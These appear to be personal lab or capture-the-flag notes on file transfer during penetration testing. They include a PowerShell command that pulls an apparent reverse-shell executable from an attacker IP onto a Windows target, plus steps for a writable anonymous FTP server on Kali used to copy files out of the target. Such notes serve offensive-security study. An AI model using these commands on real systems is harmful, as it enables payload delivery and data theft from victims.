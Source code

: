![[Pasted image 20250401144455.png]]
# Powershell Specific
---
- `Invoke-WebRequest 10.10.14.19:8000/reverse.exe -OutFile reverse.exe`
# **Metasploit using Meterpreter**
- `upload` / `download`

# Transfer from Windows To Attacker Machine
---
- Start a **Python FTP server** on Kali:
	- `python3 -m pyftpdlib -p 21 --write`
		- `-p`: port
		- `--write`: give write access to connectors
	- If not present, install using:
	- `pip3 install pyftpdlib --break-system-packages`
	- ![[Pasted image 20250417152254.png]]
- On Windows machine, access share:
	- `ftp 10.8.98.106`=> Kali IP
	- User: `anonymous`, Password: `anonymous`
		- ![[Pasted image 20250417152444.png]]
	- Upload the file using:
		- `put file_name`